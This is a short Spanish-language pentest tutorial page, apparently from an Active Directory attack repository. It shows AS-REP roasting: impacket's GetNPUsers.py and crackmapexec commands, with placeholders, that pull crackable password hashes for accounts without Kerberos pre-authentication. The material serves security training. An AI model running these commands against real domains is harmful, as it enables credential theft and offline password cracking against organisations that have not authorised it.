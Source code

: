 # Obteniendo ASEREPROastable users hash

```
python /usr/share/doc/python3-impacket/examples/GetNPUsers.py <nombre dominio completo>/ -no-pass -usersfile <txt de lista de usuarios>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/ASEREPRoast/vid.gif?raw=true "hash ASREP con GetNPUsers")

```
poetry run crackmapexec ldap <direccion ip> -u <txt de lista de usuarios> -p '' --asreproast <output.txt>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/ASEREPRoast/vid2.gif?raw=true "hash ASREP con Crackmapexec")
